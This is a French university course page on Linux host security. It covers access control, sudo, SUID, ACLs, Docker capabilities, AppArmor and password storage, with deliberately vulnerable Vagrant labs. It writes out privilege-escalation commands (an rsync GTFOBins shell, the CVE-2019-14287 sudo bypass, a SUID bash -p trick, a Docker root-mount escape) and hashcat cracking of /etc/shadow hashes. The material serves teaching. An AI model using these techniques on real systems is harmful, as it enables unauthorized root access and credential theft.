Introduction :
Objectifs :
-
Mettre en pratique et vérifier les principes outils et technologies de sécurisation des hôtes (clients, serveurs, ...).
-
Expliquer et justifier les choix et solutions proposées.
Quelques sujets abordés :
-
Gestion des accès.
-
Gestion des comptes utilisateurs.
-
Logging / Monitoring.
-
Encryption - protection des données.
-
Infrastructures à base de certificats et de clé publique.
-
Détection d'intrusion basée sur l'hôte.
-
Sécurisation (hardening) de l'operating system.
-
Mise en oeuvre.
-
Liste évolutive et sujette à changement !
Perspectives :
-
Perspective d'entreprise.
-
Principes largement valables pour différents types d'operating systems.
-
Exemples principalement Linux (open-source).
-
"Bare metal", virtualisation, OS, containers, Cloud.
-
Approche défensive, mais aussi sensibilité offensive.
-
Exemples reproductibles.
-
Background : mix technique, administration, management.
Références :
-
Foundations of Information Security - A Straightforward Introduction - Jason Andress - No Starch Press, 2019.
-
Unix and Linux System Administration Handbook - fifth edition - Evi Nemeth and others- Addison-Wesley, 2018.
Environnement de travail :
-
VirtualBox pour la virtualisation.
-
Vagrant pour la création et la configuration d'environnements de développement légers, reproductibles et portables.
-
Ubuntu (et Windows) - autres distributions possibles.
-
Attention certains environnements délibérément vulnérables !
-
Connaissance de base du terminal pré-requise.
Instructions pour VirtualBox et Vagrant :
Nous utiliserons les outils VirtualBox et Vagrant pour virtualiser des environnements reproductibles sur vos ordinateurs.
Il faut les installer dans cet ordre-là.
Cela nécessite des droits d'administrateur sur sa machine et parfois une configuration spécifique du BIOS (activation des fonctions de virtualisation - parfois aussi SecureBoot).

ASSUREZ-VOUS DE PRENDRE LES TOUTES DERNIÈRES VERSIONS STABLES (au moment de la rédaction de cet article, testé sur Vagrant 2.4.9 et virtualbox 7.2.6 - virtualbox 7.2.0 n'est PAS stable, prendre les extensions virtualbox compatibles).
NÉCESSITE UN LINUX / WINDOWS / MAC OS récent (sur processeur Intel - support pour Silicon Apple en développement).
Si possible, installer en dualboot Linux si vous avez Windows.
Pour chaque environnement utilisé au cours, télécharger le folder correspondant (éventuellement le déziper) dans un folder spécifique, puis se déplacer dans ce folder.
Quelques commandes terminal Vagrant utiles (toujours dans le folder correspondant à l'environnement que l'on veut travailler) :
-
Pour démarrer un environnement :
vagrant upEn résumé, cette commande démarre la machine virtuelle définie dans le Vagrantfile (ou crée la VM si elle n'existe pas encore).
-
Pour rentrer dans l'environnement :
vagrant sshEn résumé, cette commande ouvre une session SSH vers la machine virtuelle.
-
Pour suspendre le fonctionnement de l'environnement :
vagrant haltEn résumé, cette commande éteint proprement la machine virtuelle.
-
Pour supprimer un environnement :
vagrant destroyEn résumé, cette commande supprime complètement la machine virtuelle (attention, les données seront perdues).
rm -rf .vagrantCette commande supprime seulement les métadonnéeslocales, mais la VM existe encore dans VirtualBox malgré que Vagrant perd la trace. C'est à utiliser uniquement si Vagrant est cassé.
Règle d'or : on fait toujours vagrant destroy avant rm -rf .vagrant.
-
Pour redémarrer la VM :
vagrant reload -
Pour afficher l'état de la VM :
vagrant status -
Pour relancer le provisioning :
vagrant provisionPour démarrer la VM et faire le provisioning :
vagrant up --provision -
Pour lister toutes les VMs Vagrant et supprimer celles qui n'existent plus :
vagrant global-status --pruneEn résumé, cette commande peut également nettoyer les IDs.
Instructions spécifiques à Linux/MacOS pour l'utilisation d'adresses spécifiques pour des machines virtualisées par VirtualBox :
Comme mentionné dans https://www.virtualbox.org/manual/topics/networkingdetails.html#networkingdetails, une configuration additionnelle est requise pour permettre à un hôte Linux/MacOS de se connecter à une machine virtuelle ayant une adresse spécifique : créer un fichier networks.conf à l'emplacement /etc/virtualbox et lui donner le contenu suivant (pour ce cours - bien mettre l'étoile au début) :
* 10.0.0.0/8 172.28.128.0/16Instructions SSH pour Windows :
Pour les utilisateurs utilisant Windows (10+) pour l'hôte, voir https://learn.microsoft.com/en-us/windows-server/administration/openssh/openssh-overview pour la configuration du client d'OpenSSH.
Notez que ssh-keyscan retourne un encodage UTF-16 (sur 2 bytes), là où le fichier known_hosts semble devoir être encodé en UTF-8 (1 byte pour ASCII). Pour passer de l'un à l'autre (dans le directory ~\.ssh) :
ssh-keyscan -t ecdsa t.x.y.z > .\known_hosts2En résumé, cette commande récupère la clé publique SSH du serveur.
gc .\known_hosts2 | sc -Encoding utf8 .\known_hostsEn résumé, cette commande convertit le fichier en UTF-8 pour compatibilité OpenSSH.
On peut après faire un ssh vers t.x.y.z sans recevoir d'avertissement sur l'authenticité du serveur.
Trucs et astuces pour les problèmes de lenteur du démarrage des boîtes Vagrant sur un hôte Windows :
WSL2 :
Apparemment, la coexistance de Vagrant/VirtualBox d'un côté et de Windows WSL2 de l'autre pose problème.
Une possibilité : désactiver complètement WSL2.
Une autre possibilité pour une désactivation temporaire de WSL2 : dans un PowerShell (sans doute admin) :
-
Désactiver (libère VT-x pour VirtualBox) avec la commande suivante et redémarrer ensuite :
bcdedit /set hypervisorlaunchtype off -
Réactiver (restaure WSL2, Hyper-V, Docker Desktop) avec la commande suivante et redémarrer ensuite :
bcdedit /set hypervisorlaunchtype auto
En pratique, on peut également faire deux entrées Windows dans le bootloader avec des configurations différentes :
-
Windows 1 : avec WSL / Hyper-V → pour Docker Desktop.
-
Windows 2 : sans Hyper-V → pour VMware/VirtualBox.
Il ne s'agit pas réellement d'un "dual boot" classique. La solution consiste simplement à créer une seconde entrée de démarrage Windows avec Hyper-V désactivé.
La commande suivante affiche les entrées de boot actuelles :
bcdeditLa commande suivante crée une copie de l'entrée Windows actuelle et va retourner un GUID sous la forme {1f3c1c9e-xxxx-xxxx-xxxx-xxxxxxxxxxxx} :
bcdedit /copy {current} /d "Windows sans Hyper-V (GNS3 / VMware)"La commande suivante désactive Hyper-V sur cette entrée. Il ne faut pas oblier de remplacer {GUID} par celui reçu :
bcdedit /set {GUID} hypervisorlaunchtype offOn va renommer l'entrée actuelle (WSL / Docker) avec la commande suivante :
bcdedit /set {current} description "Windows avec Hyper-V (WSL / Docker)"On peut également choisir l'entrée par défaut avec la commande suivante :
bcdedit /default {GUID}On peut aussi modifier le temps du menu de boot avec la commande suivante (par exemple : menu visible 5 secondes) :
bcdedit /timeout 5On peut également vouloir que l'entrée sans Hyper-V soit la première ligne du menu de boot avec la commande suivante :
bcdedit /displayorder {current} {GUID}La configuration est maintenant finie. On va vérifier qu'on a bien deux entrées Windows dans le bootloader avec la commande suivante :
bcdeditOn devrait maintenant voir :
Windows Boot Manager
Windows sans Hyper-V (GNS3 / VMware)
Windows avec Hyper-V (WSL / Docker)Délais d'attente (timeouts) :
-
Utiliser une connexion réseau rapide.
-
Aussi, dans le Vagrantfile, juste en dessous de :
config.vm.box = "ubuntu/jammy64" # ou bionicRajouter :
config.vm.boot_timeout = 600
Sécurité de l'information :
Notion de sécurité :
Notion de valeur : Quelle information a de la valeur ?
Caractérisation de la sécurité :
-
Confidentialité
-
Intégrité
-
Accessibilité
Les menaces :
Anderson : Interception, Interruption, Modification, Fabrication.
STRIDE - Microsoft : Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege.
Vulnérabilités & risques :
Vulnérabilité : Une faiblesse qui peut être exploitée.
Risque : Probabilité que quelque chose de négatif va se passer.
Processus de gestion des risques :
Processus - Anderson - https://www.ibm.com/fr-fr/topics/cyber-risk-management : Actifs → Menaces → Vulnérabilités → Risques → (Acceptation, Mitigation, Transfert) → ...
Mitigations / Contrôles :
-
Contrôles physiques.
-
Contrôles logiques / techniques.
-
Contrôles administratifs / organisationnels.
Gestion des accès :
Définitions :
-
Identification : Affirmation de qui on est.
-
Authentification : Apport d'une preuve de qui on est.
-
Autorisation Détermination de ce qu'une personne (chose) authentifiée peut faire.
Identification :
Concept :
-
Personne, chose, système.
-
Nom-Prénom, identifiant, adresse.
Vérification :
-
ID
-
Peut être (relativement) facilement dupliqué, donc faible force probante.
Authentification :
-
Quelque chose qu'on connaît.
-
Quelque chose qu'on est.
-
Quelque chose qu'on possède.
-
localisation, comportement, ...
Facteurs multiples :
-
2FA
-
...
Autorisation :
Concept : Qui peut faire quoi. En pratique, mis en oeuvre via le contrôle d'accès aux ressources.
Les types de contrôle d'accès sont :
-
Autoriser.
-
Interdire.
-
Limiter.
-
Révoquer.
Mise en oeuvre des contrôles d'accès :
Access Control List :
Pour une ressource donnée, qui peut faire quoi.
-
Fichiers.
-
Accès au réseau.
Capabilities - peu fréquent au niveau OS :
L'utilisateur possède un token. Accès aux resources basé uniquement sur la possession du token, pas de celui qui le possède.
Modèles de contrôle d'accès :
Qui détermine l'accès aux ressources.
-
Discretionary Access Control : Le propriétaire de la ressource.
-
Mandatory Access Control : Un groupe séparé détermine l'accès aux ressources.
-
Rule-based, Role-based, Multi-level Access Control : Souvent, pour environnements "sensibles".
Implémentation de contrôle d'accès type UNIX/Linux :
Principaux mécanismes - Evi Nemeth & others :
-
L'accès à une ressource se fait en contrôlant l'utilisateur essayant d'y accéder (et / ou le groupe de l'utilisateur).
-
Les ressources (fichier, processus) ont un propriétaire qui ont un accès large à la ressource.
-
Les propriétaires "possèdent" les ressources qu'ils créent.
-
L'utilisateur "root" peut agir comme le propriétaire de tout objet/ressource.
-
Certaines fonctions administratives sont réservées à l'utilisateur "root".
Contrôle d'accès aux fichiers :
Ici, on est dans la VM nommée "acces-bionic" dont voici le Vagrantfile :
Vagrant.configure("2") do |config|
config.vm.box = "hashicorp/bionic64"
config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt"
config.vm.provision "file", source: "./EPHEC", destination: "/home/vagrant/EPHEC"
config.vm.provision "file", source: "./sudoers-additions.txt", destination: "/home/vagrant/sudoers-additions.txt"
config.vm.provision "file", source: "./EPHEC.test-suid.welcome", destination: "/home/vagrant/EPHEC.test-suid.welcome"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
mv /home/vagrant/EPHEC /EPHEC
chmod 2775 /EPHEC
chmod 2755 /EPHEC/test-suid
chmod 2755 /EPHEC/testacl
chmod go-rw ./users.txt
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y acl
adduser --quiet --disabled-password --shell /bin/bash --home /home/user1 --gecos "User1" user1
adduser --quiet --disabled-password --shell /bin/bash --home /home/user2 --gecos "User1" user2
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_adm --gecos "User_adm" user_adm
cat ./users.txt | tee | chpasswd
groupadd create_user
adduser user1 create_user
groupadd rsync_user
adduser user1 rsync_user
groupadd admin
adduser user_adm admin
groupadd site
adduser user1 site
adduser user2 site
chown user1:site /EPHEC/testacl/fichier-partage-groupe-site
chown user1:site /EPHEC/testacl/fichier-partage-tous
chmod o-r /EPHEC/testacl/fichier-partage-groupe-site
chown user_adm:user_adm /EPHEC/test-suid/greetings
chown user_adm:user_adm /EPHEC/test-suid/greetings1
chown user_adm:user_adm /EPHEC/test-suid/greetings2
chown user_adm:user_adm /EPHEC/test-suid/greetings2.c
chown root:root /EPHEC/test-suid/welcome
chown user_adm:user_adm /EPHEC/test-suid/welcome.c
chmod +x /EPHEC/test-suid/greetings
chmod +x /EPHEC/test-suid/greetings1
chmod +x /EPHEC/test-suid/greetings2
chmod +x /EPHEC/test-suid/welcome
chmod +s /EPHEC/test-suid/welcome
mkdir /common
chmod 2775 /common
echo "hello"| tee /common/hello.txt
chown root:root /common/hello.txt
echo "hello" | tee /home/user1/hello.txt
chown user1:user1 /home/user1/hello.txt
mv /home/vagrant/EPHEC.test-suid.welcome /etc/apparmor.d/EPHEC.test-suid.welcome
cat ./sudoers-additions.txt | tee -a /etc/sudoers
SHELL
end
Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /etc/group | grep siteEn résumé, cette commande affiche les groupes dont le nom contient site.
ls -laEn résumé, cette commande liste tous les fichiers (y compris cachés) avec leurs permissions, propriétaires et groupes.
Chaque fichier ou répertoire possède trois blocs de permissions : u (user (propriétaire)), g (group) et o (others), chacun pouvant contenir les droits rwx.
Voici la signification des lettres et leurs valeurs :
| Lettre | Valeur | Fichier | Répertoire |
|---|---|---|---|
| r | 4 | lire le contenu | lister les fichiers |
| w | 2 | modifier | créer/supprimer |
| x | 1 | exécuter | entrer (cd) |
cat /EPHEC/testacl/fichier-partage-groupe-siteEn résumé, cette commande affiche le contenu du fichier si les permissions le permettent.
Voici le contenu du fichier `fichier-partage-groupe-site` :
fichier partagé avec groupe sitecat /EPHEC/testacl/fichier-partage-tousVoici le contenu du fichier `fichier-partage-tous` :
fichier partagé avec tousContrôle d'accès aux processus :

Voici les différentes commandes exécutées dans l'image précédente :
ps au | grep userEn résumé, cette commande liste les processus et filtre ceux appartenant à user.
kill 1788En résumé, cette commande envoie un signal (SIGTERM par défaut) au processus 1788 afin de demander l'arrêt du processus.
kill 1875Actions privilégiées - root :
Les quelques actions privilégiées sont :
-
Réseau
-
Quotas.
-
Régler heure.
-
Installer software de bas niveau...

Voici les différentes commandes exécutées dans l'image précédente :
idEn résumé, cette commande affiche l'UID, le GID et les groupes de l'utilisateur courant.
cat /etc/shadow | grep userEn résumé, cette commande tente d'accéder aux mots de passe hashés. C'est une action réservée à root.
suid - changement de mot de passe :
Le bit SUID permet à un programe de s'exécuter avec l'UID du propriétaire du fichier (souvent root).

Voici les différentes commandes exécutées dans l'image précédente :
ls -la /usr/bin/passwdEn résumé, cette commande montre que passwd est SUID root (s dans les permissions).
passwdEn résumé, cette commande change le mot de passe de l'utilisateur courant. Cela fonctionne grâce au bit SUID.
Exploitation suid programme mal sécurisé :
https://tbhaxor.com/exploiting-suid-binaries-to-get-root-user-shell/
Un programme SUID mal sécruisé peut mener à une escalade de priviilèges. Exemple d'exploitation via un binaire vulnérable.

Voici les différentes commandes exécutées dans l'image précédente :
cd /EPHEC/test-suidls -lacp greetings1 greetings./welcomecp greetings2 greetings./welcomeidCode :

Voici le contenu du fichier `welcome.c` :
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
int main(int argc, char **argv, char **envp) {
int child_id = fork();
if (child_id == 0) {
char *args[] = {"./greetings", NULL};
execv("./greetings", args);
} else {
waitpid(child_id, NULL, 0);
}
}Voici le contenu du fichier `greetings1` :
#!/bin/bash
echo "Greetings!"Voici le contenu du fichier `greetings.c` :
#include <stdio.h>
#include <unistd.h>
int main (int argc, char *argv[]) {
char *args[] = {"/bin/bash", "-p", "-i", NULL};
return execv("/bin/bash", args);
}Administration login root vs sudo - accès opportuniste :
root vs sudo :
-
root : partage du compte - peu ou pas de logging - problème de redevabilité.
-
sudo : actions spécifiques - logging des comandes - accès opportuniste contrôlé.

sudo cat /etc/shadow | grep userEn résumé, cela permet d'exécuter la commande avec les privilèges root.
Configuration sudo :
Création groupe et rattachement utilisateur :

Voici les différentes commandes exécutées dans l'image précédente :
sudo groupadd adminEn résumé, cette commande crée un nouveau groupe nommé admin.
sudo adduser user_adm adminEn résumé, cette commande ajoute l'utilisateur user_adm au groupe admin.
Contenu des groupes :

Voici les différentes commandes exécutées dans l'image précédente :
cat /etc/group | grep sudocat /etc/group | grep admincat /etc/group | grep rsync_userhttps://www.sudo.ws/docs/man/1.7.10/sudoers.man/

sudo cat /etc/sudoersSécurité limitée sudo :

https://gtfobins.github.io/gtfobins/rsync/
Voici les différentes commandes exécutées dans l'image précédente:
groupsEn résumé, cette commande liste les groupes de l'utilisateur courant.
sudo rsync /common/hello.txtsudo -u user2 cat /home/user2sudo rsync -e 'sh -c "sh 0<&2 1>2"' 127.0.0.1:/dev/nullEn résumé, cette commande est un exemple d'abus de sudo via un binaire autorisé. C'est une escalade de privilèges (GTFOBins).
id
https://blog.sec-it.fr/en/2021/02/08/sudo-vulns/#CVE-2019-14287
Voici les différentes commandes exécutées dans l'image précédente :
sudo -u user1 ls /home/user1sudo cat /etc/sudoerssudo -u \#-1 /bin/bashidLes limites de sudo sont :
-
Possibilité d'abus via des binaires (GTFOBins).
-
Vulnérabilités connues (par exemple : CVE-2019-14287).
Windows :


Quelques différences :
-
Windows : modèle plus riche de droits d'accès.
-
Notion d'héritage de droits.
-
...
-
(voir par exemple : https://www.cs.cornell.edu/courses/cs513/2000SP/L07.html ou https://learn.microsoft.com/enus/windows/win32/ad/access-control-inheritance)
-
Modèles convergent (surtout avec extensions).
Extensions :
Limites du modèle type - Evi nemeth & others :
-
Root - point faible crucial : sudo ? - d'une certaine manière, étend la surface d'attaque.
-
suid - division des pouvoirs de Root, mais très vulnérable.
-
Dispersion des contrôles d'accès dans les différentes commandes - changement difficile.
-
N'adresse pas (vraiment) l'authentification dans un contexte réseau.
-
Difficulté d'audit - l'apparence à un groupe n'est pas indicatif des droits.
-
ACL limitées - rajout d'un membre à un groupe est une opération privilégiée.
ACL avancées (POSIX, il existe aussi NFSv4 proche Windows) :

Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /etc/group | grep siteEn résumé, cette commande vérifie que le groupe site existe et quels utilisateurs en font partie.
ls -lagetfacl fichier-partage-groupe-siteEn résumé, cette commande affiche les ACL POSIX associéées au fichier.
su user_admcat fichier-partage-groupe-sitesu user1setfacl -m u:user_adm:rw fichier-partage-groupe-siteEn résumé, cette commande permet à user_adm d'obtenir des droits rw sans être propriétaire et sans modifier les permissions classiques.
getfacl fichier-partage-groupe-siteEn résumé, en réaffichant les ACL du fichier, on peut vérifier la présence de la ligne suivante :
user:user_adm:rw-su user_admcat fichier-partage-groupe-siteKerberos : authentification via tiers de confiance :

Isolation via namespaces/capabilities :
namespaces : Restriction "top down" de l'accès d'un processus aux ressources (fichiers, réseau, processus, etc.).
capabilities : Division des pouvoirs de root en privilèges "individualisés" (juste ouvrir un port réseau par exemple) (À ne pas confondre avec les capabilities comme substitut aux ACL).
Docker et namespace - vue sur les processus internes :
Ici, on est dans la VM nommée "access-jammy" dont voici le Vagrantfile :
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt"
config.vm.provision "file", source: "./EPHEC", destination: "/home/vagrant/EPHEC"
config.vm.provision "file", source: "./sudoers-additions.txt", destination: "/home/vagrant/sudoers-additions.txt"
config.vm.provision "file", source: "./EPHEC.test-suid.welcome", destination: "/home/vagrant/EPHEC.test-suid.welcome"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
mv /home/vagrant/EPHEC /EPHEC
chmod 2775 /EPHEC
chmod 2755 /EPHEC/test-suid
chmod 2755 /EPHEC/testacl
chmod go-rw ./users.txt
DEBIAN_FRONTEND=noninteractive apt-get update
# Add Docker's official GPG key:
DEBIAN_FRONTEND=noninteractive apt-get install -y ca-certificates curl
DEBIAN_FRONTEND=noninteractive install -m 0755 -d /etc/apt/keyrings
curl -fsSL https://download.docker.com/linux/ubuntu/gpg -o /etc/apt/keyrings/docker.asc
chmod a+r /etc/apt/keyrings/docker.asc
# Add the repository to Apt sources:
echo \
"deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/ubuntu \
$(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
tee /etc/apt/sources.list.d/docker.list > /dev/null
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y acl apparmor-profiles apparmor-utils \
docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
DEBIAN_FRONTEND=noninteractive apt-get upgrade -y
adduser --quiet --disabled-password --shell /bin/bash --home /home/user1 --gecos "User1" user1
adduser --quiet --disabled-password --shell /bin/bash --home /home/user2 --gecos "User1" user2
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_adm --gecos "User_adm" user_adm
cat ./users.txt | tee | chpasswd > /dev/null
groupadd create_user
adduser user1 create_user
groupadd rsync_user
adduser user1 rsync_user
adduser user_adm admin
groupadd site
adduser user1 site
adduser user2 site
chown user1:site /EPHEC/testacl/fichier-partage-groupe-site
chown user1:site /EPHEC/testacl/fichier-partage-tous
chmod o-r /EPHEC/testacl/fichier-partage-groupe-site
chown user_adm:user_adm /EPHEC/test-suid/greetings
chown user_adm:user_adm /EPHEC/test-suid/greetings1
chown user_adm:user_adm /EPHEC/test-suid/greetings2
chown user_adm:user_adm /EPHEC/test-suid/greetings2.c
chown root:root /EPHEC/test-suid/welcome
chown user_adm:user_adm /EPHEC/test-suid/welcome.c
chmod +x /EPHEC/test-suid/greetings
chmod +x /EPHEC/test-suid/greetings1
chmod +x /EPHEC/test-suid/greetings2
chmod +x /EPHEC/test-suid/welcome
chmod +s /EPHEC/test-suid/welcome
mkdir /common
chmod 2775 /common
echo "hello" | tee /common/hello.txt > /dev/null
chown root:root /common/hello.txt
echo "hello" | tee /home/user1/hello.txt > /dev/null
chown user1:user1 /home/user1/hello.txt
mv /home/vagrant/EPHEC.test-suid.welcome /etc/apparmor.d/EPHEC.test-suid.welcome
apparmor_parser -r /etc/apparmor.d/EPHEC.test-suid.welcome
aa-complain /EPHEC/test-suid/welcome
cat ./sudoers-additions.txt | tee -a /etc/sudoers > /dev/null
adduser vagrant docker
SHELL
end
Voici les différentes commandes exécutées dans l'image précédente :
docker run -p 80:80 -d --name ephec nginxcurl localhost:80<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
...
</html>docker exec -ti ephec bashapt-get update && apt-get -y install procpsps auxps aux | grep nginxDocker et capabilities - désactivation sélective de chown :

Voici les différentes commandes exécutées dans l'image précédente :
docker run -t -i debian chown nobody /En résumé, cete commande tente de changer le propriétaire du répertoire racine / pour l'utilisateur nobody. La commande fonctionne car root possède toutes les capabilities Linux, dont CAP_CHOWN pour changer le propriétaire de fichiers.
docker run -t -i --cap-drop chown debian chown nobody /En résumé, cette commande retire à root dans le conteneur le droit de changer les propriétaires de fichiers. La commande échoue car, même si le processus est root dans le conteneur, il n'a plus la capability CAP_CHOWN et donc il ne peut plus exécuter chown.
Sécurité Docker - importance de la bonne configuration :
https://docs.docker.com/engine/security/

Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /etc/group | grep dockerEn résumé, cette commande affiche le groupe docker et ses membres. C'est important car les utilisateurs dans le groupe docker peuvent contrôler le daemon Docker. Or le daemon Docker tourne en root.
docker run hello-worldEn résumé, cette commande lance un conteneur de test pour vérifier que Docker fonctionne.
su user2docker run hello-worldls -la /var/run/docker.sockEn résumé, cette commande affiche les permissions du socket Docker.
exitEn résumé, cette commande quitte la session user2 et retourne à l'utilisateur précédent (souvent root ou vagrant).
docker run --rm -v /:/host -t -i debian bashEn résumé, cette commande donne au conteneur un accès direct au système de fichiers de l'hôte.
-
--rm : supprime le conteneur après arrêt.
-
-v /:/host monte la racine de l'hôte dans le conteneur.
-
debian shell : shell interactif.
cat /host/etc/shadow | grep userMAC - exemple Apparmor :

Voici les différentes commandes exécutées dans l'image précédente :
sudo aa-enforce ./welcomeEn résumé, cette commande met le programme welcome en mode enforce AppArmor.
sudo cat /etc/apparmor.d/EPHEC.test-suid.welcomeEn résumé, cette commande affiche le profil AppArmor appliqué à welcome.
#include <tunables/global>
/EPHEC/test-suid/welcome {
#include <abstractions/base>
deny capability setuid,
/EPHEC/test-suid/greetings mrix,
/EPHEC/test-suid/welcome mr,
/bin/bash mrix,
/usr/bin/id mrix,
}cp greetings2 greetings./welcomecat 1> greetings -#!/bin/bash
ls./greetings./welcolmeAppArmor permet de restreindre finement les actions d'un binaire SUID, mais une mauvaise définition des chemins autorisés peut permettre l'exécution de code arbitraire.
Gestion des utilisateurs :
Le fichier des utilisateurs : /etc/passwd :
Ici, on est dans la VM nommée "util-bionic" dont voici le Vagrantfile :
Vagrant.configure("2") do |config|
config.vm.box = "hashicorp/bionic64"
config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt"
config.vm.provision "file", source: "./rockyou.txt", destination: "/home/vagrant/rockyou.txt"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_adm --gecos "User_adm" user_adm
adduser --quiet --disabled-password --shell /bin/bash --home /home/user1 --gecos "User1" user1
adduser --quiet --disabled-password --shell /bin/bash --home /home/user2 --gecos "User1" user2
adduser --quiet --disabled-password --shell /bin/bash --home /home/weak_pass --gecos "Weak_pass" weak_pass
adduser --quiet --disabled-password --shell /bin/bash --home /home/weak_pass_user --gecos "Weak_pass_user" weak_pass_user
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_reasonable_password --gecos "User_reasonable_password" user_reasonable_password
chpasswd < users.txt
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y hashcat
SHELL
end
Voici les différentes commandes exécutées dans l'image précédente :
sudo head -n 1 /etc/passwdEn résumé, cette commande affiche la première entrée du fichier /etc/passwd pour montrer le format d'un compte utilisateur.
sudo tail -n 10 /etc/passwdEn résumé, cette commande affiche les dix derniers comptes utilisateurs définis sur le système.
/etc/passwd - informations détaillées :
-
Username : purement conventionnel (peut être changé).
-
(hash du password - historique).
-
UID : identifiant numérique de l'utilisateur - coeur de l'identification.
-
GID : identifiant numérique du groupe - coeur de l'identification.
-
Informations administratives - peuvent être modifiées (limite sur Full Name).
-
Home directory - pas toujours présent.
-
Shell - pas toujours présent.
Utilisateurs techniques, utilisateurs avec id=0 :
Utilisateurs techniques (typiquement id inférieur à 1000) :
Typiquement, pour limiter l'accès aux ressources pour un programme spécifique, sans passer par root.
Utilisateurs avec id=0 :
-
Pouvoirs root.
-
Peuvent être multiples.
-
Peuvent ne pas s'appeler root.
-
... danger pour la sécurité ...
Authentification :
Authentification via mots de passe : /etc/shadow :
Le fichier /etc/shadow contient le hash du mot de passe, le salt, l'algorithme et les informations de validité.

Voici les différentes commandes exécutées dans l'image précédente :
sudo head -n 1 /etc/shadowEn résumé, cette commande affiche la première ligne du fichier contenant les mots de passe chiffrés.
sudo tail -n 10 /etc/shadow | fold -w 80 -sEn résumé, cette commande affiche les dernières entrées du fichier /etc/shadow en repliant les lignes pour une meilleur lisibilité. L'option -fold sert à casser les lignes trop longues. L'option -w 80 permet une largeur maximale de ligne de 80 caractères. L'option -s coupe proprement aux espaces (si possible), pas au milieu d'un mot.
/etc/shadow - informations détaillées :
Le fichier /etc/shadow contient les informations sensibles li&es aux mots de passe et à leur expiration.
Chaque ligne correspond à un utilisateur et comporte 9 champs séparés par des : :
login:password:lastchg:min:max:warn:inactive:expire:reservedVoici l'explication de chaque champ :
-
user.
-
hash :
-
version
-
$6$ → SHA-512 (le plus courant).
-
$5$ → SHA-256.
-
$1$ → MD5.
-
-
salt = valeur aléatoire ajoutée avant le hash.
-
hash proprement dit.
Cas particuliers :
-
! → compte verrouillé.
-
* → pas de connexion possible.
-
vide → pas de mot de passe.
-
-
diverses informations relatives au mot de passe (dernier changement, etc.).
-
Nombre de jours depuis le 1er janvier 1970 (Epoch) correspondant à la date de la dernière modification.
-
Nombre minimum de jours avant de pouvoir changer le mot de passe.
-
Nombre maximum de jours avant expiration.
-
Nombre de jours d'avertissement avant expiration.
-
Nombre de jours après expiration avant désactivation du compte.
-
Date d'expiration du compte (jours depuis 1970).
-
Champ réservé (généralement vide).
-
Importance de mots de passe compliqués : illustration :
Hashcat - https://hashcat.net/hashcat/ - https://github.com/danielmiessler/SecLists/tree/master

Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /etc/shadow | grep weak_pass_userEn résumé, cette commande extrait l'entrée correspondant à l'utilisateur ciblé dans /etc/shadow.
sudo cat /etc/shadow | grep weak_pass_user > hash1.tempcut --delimiter=: --fields=2 hash1.tempEn résumé, cette commande extrait uniquement le champ contenant le hash du mot de passe.
cut --delimiter=: --fields=2 hash1.temp > hash1.txtcat hash1.txthashcat --force -m 1800 -a 0 hash1.txt rockyou.txtEn résumé, cette commande lance une attaque par dictionnaire sur un hash SHA-512 pour démontrer la faiblesse d'un mot de passe.
hashcat --force --show -m 1800 -a 0 hash1.txt rockyou.txt | fold -w 80 -s
Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /etc/shadow | grep weak_pass:sudo cat /etc/shadow | grep weak_pass: > hash2.tempcut --delimiter=: --fields=2 hash2.tempcut --delimiter=: --fields=2 hash2.temp > hash2.txthashcat --force -m 1800 -a 0 hash2.txt rockyou.txtGestion des logins - par exemple la rotation des mots de passe :
https://www.baeldung.com/linux/password-complexity

Voici les différentes commandes exécutées dans l'image précédente :
cat /etc/login.defsEn résumé, cette commande affiche la configuration globale des règles de gestion des mots de passe.
sudo chage user_reasonable_passwordEn résumé, cette commande permet de configurer l'expiration et la rotation du mot de passe d'un utilisateur. chage = change age
Les différentes options de la commande chage sont :
| Option | Explication |
|---|---|
| -l | Affiche les paramètres actuels du compte (date du dernier changement, expiration, nombre de jours max/min, période d'avertissement, inactivité avant verrouillage). |
| -d JOUR | Définit la date du dernier changement de mot de passe. 0 force un changement au prochain login, mais peut aussi prendre une date format YYYY-MM-DD. |
| -E DATE | Définit la date d'expiration du compte. Après cette date, le compte est désactivé. Si on met -1, il n'y a jamais d'expiration. |
| -M JOURS | Nombre maximum de jours avant expiration du mot de passe. |
| -m JOURS | Nombre minimum de jours avant qu'on puisse rechanger le mot de passe. |
| -W JOURS | Nombre de jours d'avertissement avant expiration. |
| -I JOURS | Nombre de jours d'inactivité après expiration avant désaction du compte. Si on met -1, il n'y a pas de désactivation automatique. |
| -R CHRROOT_DIR | Permet d'exécuter la commande dans un environnement chroot. Rarement utilisé sauf en administration système avancée. |
su user_reasonable_passwordDésactivation & réactivation d'un compte :
Ici, on est dans la VM nommée "util-jammy" dont voici le Vagrantfile :
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt"
config.vm.provision "file", source: "./rockyou.txt", destination: "/home/vagrant/rockyou.txt"
